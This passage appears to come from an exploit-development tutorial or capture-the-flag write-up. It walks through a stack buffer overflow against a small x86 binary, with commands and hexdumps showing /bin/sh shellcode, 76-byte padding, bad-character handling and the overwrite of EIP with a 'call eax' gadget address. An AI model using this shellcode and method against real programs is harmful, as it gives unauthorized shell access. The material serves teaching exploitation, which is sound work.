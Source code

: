 As seen on command output below, 23 bytes of shellcode is written in exploit.bin file in raw hex format.

```x86asm
$ ls -l exploit.bin 
-rwxrwxr-x 1 c c 23 Mar  1 04:21 exploit.bin

$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 0080
```

We need some padding with 76 bytes of data as an offset, therefore whatever is written after those bytes will be written onto **eip** register.

```x86asm
$ python2 -c 'print "A"*53' >> exploit.bin 

$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 000a
```

As seen on the output above, there is a **newline character** in our exploit **0a41**. This can be a badchar for our target binary. To be avoid of terminations we can use the following python code below, be sure you deleted and compiled the **exploit.bin** again.

```x86asm
$ python2 -c 'import sys; sys.stdout.write("A"*53)' >> exploit.bin

$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141
```

76 bytes can be sent by using this exploit so far, we are now able to write anything to **eip** register. The first bytes aka. **shellcode** should be overwritten onto **eax** register.  

We need an address of **call eax** instruction in our binary to jump to our shellcode by writing its address onto **eip** register.

```x86asm
$ objdump -d 5 -M intel | grep "call"
...TRIM...
 8048386:	ff d0                	call   eax
...TRIM...
 804840f:	ff d0                	call   eax
```

Let's use the address **8048386** in our exploit.
```x86asm
$ echo -ne "\x86\x83\x04\x08" >> exploit.bin
```
